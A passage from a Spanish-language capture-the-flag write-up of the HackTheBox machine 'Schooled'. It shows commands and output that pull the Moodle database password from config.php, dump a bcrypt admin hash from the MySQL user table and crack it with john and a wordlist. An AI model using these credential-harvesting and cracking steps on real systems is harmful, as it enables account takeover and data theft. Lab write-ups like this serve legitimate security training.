 ```phillips_manuel@staff.schooled.htb``` El nuestro era simplemente: **student.schooled.htb**

Tenemos una consola, pero no nos deja crear una tty ni hay curl o wget para subir un script de reconocimiento.
```console
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ script /dev/null -c bash
script: tcgetattr/ioctl: Can't assign requested address
```
En la carpeta de moodle se buscan posibles contraseñas: 
```console
[www@Schooled /usr/local/www/apache24/data/moodle]$ grep pass *
config.php:$CFG->dbpass    = 'PlaybookMaster2020';
[www@Schooled /usr/local/www/apache24/data/moodle]$ cat config.php | grep "user"
$CFG->dbuser    = 'moodle';
[www@Schooled /usr/local/www/apache24/data/moodle]$ mysql -u moodle -p 
bash: mysql: command not found
```
Apenas hay ningun programa, miramos el PATH a ver si es un problema suyo.
```console
[www@Schooled /usr/local/www/apache24/data/moodle]$ echo $PATH
/sbin:/bin:/usr/sbin:/usr/bin
[www@Schooled /usr/local/www/apache24/data/moodle]$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
[www@Schooled /usr/local/www/apache24/data/moodle]$ mysql -u moodle -p
PlaybookMaster2020
```
Como no estamos en un tty ha petado (al igual que nano y mas programas)

```console
[www@Schooled /home]$ mysql -umoodle -pPlaybookMaster2020 -e "show databases"
Database
information_schema
moodle
[www@Schooled /home]$ mysql -umoodle -pPlaybookMaster2020 -e "use moodle; show tables" | grep "user"
mdl_user
mdl_user_devices
mdl_user_enrolments
mdl_user_info_category
[www@Schooled /home]$ mysql -umoodle -pPlaybookMaster2020 -e "use moodle; describe mdl_user" | grep -E "pass|name"
username	varchar(100)	NO			
password	varchar(255)	NO
[www@Schooled /home]$ mysql -umoodle -pPlaybookMaster2020 -e "use moodle; select username,password,email from mdl_user"
admin	$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW jamie@staff.schooled.htb
```
Este hash se intenta romper con jhon, pero tarda una eternidad
```
└─$ hashcat --example-hashes | grep "\$2a" -B 2
MODE: 3200
TYPE: bcrypt $2*$, Blowfish (Unix)
HASH: $2a$05$MBCzKhG1KhezLh.0LRa0Kuw12nLJtpHy6DIaU.JAnqJUDYspHC.Ou
└─$ john hash -w=/usr/share/wordlists/rockyou.txt --format=bcrypt
!QAZ2wsx	(admin)
```
---------------------------

